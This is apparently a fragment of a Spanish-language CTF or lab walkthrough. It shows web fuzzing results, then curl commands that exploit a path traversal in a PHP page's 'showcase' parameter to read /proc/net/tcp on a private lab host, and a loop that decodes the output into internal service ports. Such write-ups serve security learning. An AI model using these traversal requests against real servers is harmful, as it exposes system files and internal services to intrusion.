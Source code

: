 ```python
000000039:   200        50 L     173 W      1801 Ch     "login"                                                        
000000130:   302        17 L     17 W       158 Ch      "home"                                                         
000000245:   200        27 L     92 W       927 Ch      "index"                                                        
000000882:   200        30 L     93 W       935 Ch      "welcome"                      
```

Vemos mas cosas

```bash
❯ curl -s "http://192.168.1.84/home.php?showcase=../../../../proc/net/tcp" -b PHPSESSID=lajkn6k3qshls8g5qepomldgo7 | tail -n 5
  sl  local_address rem_address   st tx_queue rx_queue tr tm->when retrnsmt   uid  timeout inode                                                     
   0: 00000000:01BD 00000000:0000 0A 00000000:00000000 00:00000000 00000000     0        0 17530 1 00000000 100 0 0 10 0                             
   1: 0100007F:0CEA 00000000:0000 0A 00000000:00000000 00:00000000 00000000   120        0 17347 1 00000000 100 0 0 10 0                             
   2: 00000000:008B 00000000:0000 0A 00000000:00000000 00:00000000 00000000     0        0 17531 1 00000000 100 0 0 10 0                             
   3: 0100007F:0277 00000000:0000 0A 00000000:00000000 00:00000000 00000000     0        0 15390 1 00000000 100 0 0 10 0  
```

Para verlos mejor estos son

```bash
❯ curl -s "http://192.168.1.84/home.php?showcase=../../../../proc/net/tcp" -b PHPSESSID=lajkn6k3qshls8g5qepomldgo7 | tail -n 5 | awk '{print $2}' | grep -v 'local' | sed 's/.*://'
01BD
0CEA
008B
0277
```

Despues de convertirlos estos son los puertos

```bash
❯ for port in $(curl -s "http://192.168.1.84/home.php?showcase=../../../../proc/net/tcp" -b PHPSESSID=lajkn6k3qshls8g5qepomldgo7 | tail -n 5 | awk '{print $2}' | grep -v 'local' | sed 's/.*://'); do echo "ibase=16; $port" | bc; done

445
3306
139
631
```

Estos son los puertos

```
445 -> SMB
3306 -> MySQL
139 -> NetBios
631 -> CUPS
```
